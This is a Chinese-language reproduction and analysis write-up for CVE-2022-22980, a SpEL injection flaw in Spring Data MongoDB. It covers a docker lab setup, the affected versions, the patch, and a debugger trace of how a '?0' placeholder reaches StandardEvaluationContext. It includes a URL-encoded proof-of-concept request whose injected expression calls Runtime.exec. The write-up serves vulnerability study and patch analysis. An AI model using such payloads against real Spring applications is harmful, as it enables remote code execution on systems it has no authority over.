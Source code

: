 # CVE-2022-22980 Spring Data MongoDB SpEL表达式注入 复现分析

By. Whoopsunix

# 0x00 环境

docker开一个mongdb环境

```shell
docker pull mongo:4.2.21
docker run -itd --name mongo -p 27017:27017 mongo:4.2.21 --auth
```

# 0x01 复现

当配置使用@Query、@Aggregation注解进行查询，并且使用形如 `?0` 的占位符时将产生漏洞

![image-20220623155731494](attachments/image-20220623155731494.png)

![image-20220623155744620](attachments/image-20220623155744620.png)

payload

```
http://127.0.0.1:8080/find?name=%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29
```

![image-20220623143742861](attachments/image-20220623143742861.png)

# 0x02 补丁

漏洞影响版本

+ v3.4.0
+ v3.3.0 - v3.3.4

查看[官方补丁](https://github.com/spring-projects/spring-data-mongodb/compare/3.4.0...3.4.1)，在org.springframework.data.mongodb.util.json.ParameterBindingJsonReader#bindableValueFor() 中添加了一条正则，且注释中标记了 `?0`，因此着重分析该类

![image-20220623144326895](attachments/image-20220623144326895.png)

# 0x03 分析

以 v3.4.0 为例分析，根据补丁对 bindableValueFor() 函数入口处打断点，第一次进入时会对 name 进行处理

![image-20220623151657110](attachments/image-20220623151657110.png)

在二次进入时，则会调用预设的规则

![image-20220623151559177](attachments/image-20220623151559177.png)

![image-20220623150818804](attachments/image-20220623150818804.png)

继续往下当符合正则表达式的判断时，将继续往下走

![image-20220623152203442](attachments/image-20220623152203442.png)

这里将调用一个循环实现对占位符的替换，前后可以看到 `?0`被替换为传入的 1234，这里也 callback 官方补丁中的那个注释，很明显是官方的一个临时修复措施

![image-20220623152742259](attachments/image-20220623152742259.png)

![image-20220623160804942](attachments/image-20220623160804942.png)

接着会调用org.springframework.data.mongodb.util.json.ParameterBindingJsonReader#evaluateExpression()

![image-20220623153100252](attachments/image-20220623153100252.png)

最终将执行org.springframework.data.mongodb.repository.query.DefaultSpELExpressionEvaluator#evaluate()，并且传入的是 StandardEvaluationContext 类型的context，是一个标准实现包含SPEL的全部功能

![image-20220623153338809](attachments/image-20220623153338809.png)

继续跟进也能看到 expressionState 的构造也与context有关，最后getValue() 实现RCE

![image-20220623155103142](attachments/image-20220623155103142.png)
